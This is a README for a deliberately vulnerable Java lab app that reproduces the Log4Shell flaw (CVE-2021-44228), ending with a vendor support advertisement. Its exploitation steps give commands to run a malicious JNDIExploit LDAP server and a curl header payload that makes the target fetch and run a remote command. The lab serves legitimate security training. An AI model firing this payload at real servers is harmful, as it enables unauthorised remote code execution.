 # TekiumLog4jApp v1.0

Author: Erick Rodríguez 

Email: erickrr.tbd93@gmail.com, erodriguez@tekium.mx

License: GPLv3

Application developed in Java that simulates an application vulnerable to CVE-2021-44228. 

It uses Log4j 2.11.1 and JDK 1.8.0_181.

# Running

Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
`unzip JNDIExploit.v1.2.zip`
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- Then, trigger the exploit using:

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:


# Commercial Support
![Tekium](https://github.com/unmanarc/uAuditAnalyzer2/blob/master/art/tekium_slogo.jpeg)

Tekium is a cybersecurity company specialized in red team and blue team activities based in Mexico, it has clients in the financial, telecom and retail sectors.

Tekium is an active sponsor of the project, and provides commercial support in the case you need it.

For integration with other platforms such as the Elastic stack, SIEMs, managed security providers in-house solutions, or for any other requests for extending current functionality that you wish to see included in future versions, please contact us: info at tekium.mx

For more information, go to: https://www.tekium.mx/

